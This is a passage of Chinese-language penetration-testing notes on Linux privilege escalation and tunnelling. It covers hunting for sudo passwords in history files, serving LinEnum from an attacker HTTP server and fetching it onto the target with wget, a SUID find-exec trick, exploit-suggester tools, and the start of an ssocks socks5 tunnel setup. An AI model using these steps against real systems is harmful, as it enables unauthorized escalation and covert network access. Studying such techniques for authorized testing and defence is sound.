 sudo提权需要知道密码，可以通过一些linux信息收集工具收集到历史记录文件等，也许可以找到密码

## Linux内网权限扫描脚本

### LinEnum使用

github下载后，直接运行LinEnum.sh程序就可以了，如果要在远程主机上使用可以先在本机创建一个http服务器

```python
python3 -m http.server 80
```

http服务器是在哪个目录开启的，哪里就是根目录

在目标机中进行下载

```python
wget 192.168.0.128/LinEnum.sh
```

在目标机上执行发现权限不足，可以利用suid提权

```python
mkdir testfind test -exec chmod 777 ./LinEnum.sh \;
```

扫描结果 

![Untitled](https://i.loli.net/2021/10/03/nYLZjkC3h2J1y9m.png)

### linux-exploit-suggester的使用

这个用来检测是否存在提权 cve 漏洞

![Untitled](https://i.loli.net/2021/10/03/3c2O1WhyP6lwx74.png)

### linuxprivchecker

检测权限以及提权漏洞检测等

![Untitled](https://gitee.com/tutucoo/images/raw/master/uPic/Untitled%2052.png)

![Untitled](https://gitee.com/tutucoo/images/raw/master/uPic/Untitled%2053.png)

![Untitled](https://gitee.com/tutucoo/images/raw/master/uPic/Untitled%2054.png)

## Linux socks5内网穿透

1、下载ssocks0.0.1并编译

```python
./configure && make
```

2、进入ssocks\src目录，攻击机执行rcsocks
